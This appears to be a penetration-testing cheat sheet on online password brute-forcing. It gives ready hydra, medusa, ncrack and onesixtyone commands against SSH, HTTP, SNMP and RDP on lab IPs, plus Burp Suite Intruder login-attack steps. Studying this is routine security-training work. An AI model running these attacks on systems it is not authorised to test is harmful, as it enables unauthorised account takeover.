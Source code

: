 # Online Cracking

## Overview

* several tools specialized for bruteforcing online
* several different services that are common for bruteforce
* VNC, SSH, FTP, SNMP, POP3, HTTP.

## Port 22 - SSH

```bash
hydra -l root -P wordlist.txt 192.168.0.101 ssh
```

```bash
hydra -L userlist.txt -P best1050.txt 192.168.1.103 -s 22 ssh -V
```

## Port 80/443 htaccess

* password protect directories with apache pretty easily
* just configure the htaccess
* brute forced like this

```bash
medusa -h 192.168.1.101 -u admin -P wordlist.txt -M http -m DIR:/test -T 10
```

## Logins

* use Burp Suite
* intecept a login attempt.
* right-cick "Send to intruder"
* select Sniper if you have only one field you want to bruteforce, like if the username is known
* otherwise select cluster-attack
* select your payload, aka wordlist
* click attack
* look for response-length that differs from the rest

## Port 161 - SNMP

* using hydra

```bash
hydra -P wordlist.txt -v 102.168.0.101 snmp
```

* using onesixtyone

```bash
onesixtyone -c community_strings_mib -i ip_list.txt
```

* [https://github.com/danielmiessler/SecLists/blob/master/Discovery/SNMP/common-snmp-community-strings.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/SNMP/common-snmp-community-strings.txt)

## Port 3389 - Remote Desktop Protocol

* use Ncrack

```bash
ncrack -vv --user admin -P password-file.txt rdp://192.168.0.101
```

